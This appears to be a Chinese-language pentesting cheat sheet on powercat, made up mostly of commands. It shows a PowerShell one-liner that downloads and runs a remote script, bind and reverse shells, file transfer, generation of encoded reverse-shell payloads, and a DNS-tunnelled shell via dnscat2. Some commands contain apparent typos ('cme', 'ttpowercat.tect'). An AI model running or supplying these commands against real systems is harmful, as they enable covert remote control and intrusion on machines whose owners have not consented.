 通过powercat返回powershell
```bash
# 如果想返回powershell，就无法与nc进行交互
# 建立正向shell

# 在目标机器执行
IEX(New-Object Net.WebClient).DownloadString("http://10.10.10.1/powercat.ps1");
powercat -l -p 9999 -v
# 在客户端
powercat -c 10.10.10.129 -p 9999 -v -ep  # -ep用于返回powershell

```

通过powercat传递文件
```bash
# 服务端准备接收文件
powercat -l -p 9999 -of test.txt -v    # -of 输出文件名
powercat -c 10.10.10.129 -p 9999 -i c:\1.txt -v  # -i 输入：可写文件名，也可直接写字符串

```

用powercat生成payload
```bash
# 有正向、反向，且可以进行编码

##
# 客户端生成
powercat -l -p 8888 -e cme -v -g >>shell.ps1   # 生成反弹shell的脚本
#或者生成反弹powershell的脚本
powercat -l -p 7777 -ep -v -g >>shell2.ps1
# 把生成的文件上传到目标并运行
# 然后在客户端执行
powercat -c 10.10.10.129 -p 8888 -v  # 就会获得一个反弹shell


## 也可生成编码的payload
# 客户端运行
powercat -c 10.10.10.129 -p 6666 -ep -ge    # -ge  生成经过编码的payload
# 目标运行
powershell -E "上面的编码"
# 继续客户端执行
powercat -l -p 9999 -v

```

PowerCat DNS隧道通信
```bash
# 由于其dns隧道是基于dnscat设计的，所以先下载安装编译它(放在目标机器Linux)
# 下载地址：https://github.com/iagox86/dnscat2
git clone https://github.com/iagox86/dnscat2
cd dnscat2/server/
gem install bundler
bundle install


# 然后，目标机器执行
ruby dnscat2.rb ttpowercat.test -e open --no-cache
# 回到我们的机器，执行
powercat -c 192.168.56.129 -p 53 -dns ttpowercat.tect -e cmd.exe  # -dns表示使用dns进行通信
# 然后就能看到反弹回来的shell了

```

